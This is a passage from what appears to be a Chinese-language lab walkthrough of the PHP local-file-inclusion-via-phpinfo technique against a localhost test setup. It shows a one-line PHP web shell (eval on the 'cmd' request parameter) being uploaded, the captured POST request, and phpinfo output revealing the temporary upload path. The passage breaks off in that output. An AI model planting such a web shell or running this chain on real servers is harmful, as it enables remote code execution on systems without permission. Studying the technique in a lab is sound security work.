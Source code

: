 
*   浏览器访问 upload.html, 上传文件 file.txt
    
    ```
    <?php
    eval($_REQUEST["cmd"]);
    ?>
    
    ```
*   burp 查看POST 信息如下
    
    ```
    POST /LFI_phpinfo/phpinfo.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:44.0) Gecko/20100101 Firefox/44.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://127.0.0.1/LFI_phpinfo/upload.html
    Connection: close
    Content-Type: multipart/form-data; boundary=---------------------------11008921013555437861019615112
    Content-Length: 368
    
    -----------------------------11008921013555437861019615112
    Content-Disposition: form-data; name="file"; filename="file.txt"
    Content-Type: text/plain
    
    <?php
    eval($_REQUEST["cmd"]);
    ?>
    
    -----------------------------11008921013555437861019615112
    Content-Disposition: form-data; name="submit"
    
    Submit
    -----------------------------11008921013555437861019615112--
    
    ```
*   浏览器访问，phpinfo 返回如下信息：
    
    ```
    _REQUEST["submit"]  
        Submit
    
    _POST["submit"] 
        Submit
    
    _FILES["file"]  
        Array
        (
            [name] => file.txt
            [type] => text/plain
            [tmp_name] => /tmp/phpufdCHh
            [error] => 0
            [size] => 33
        )
    
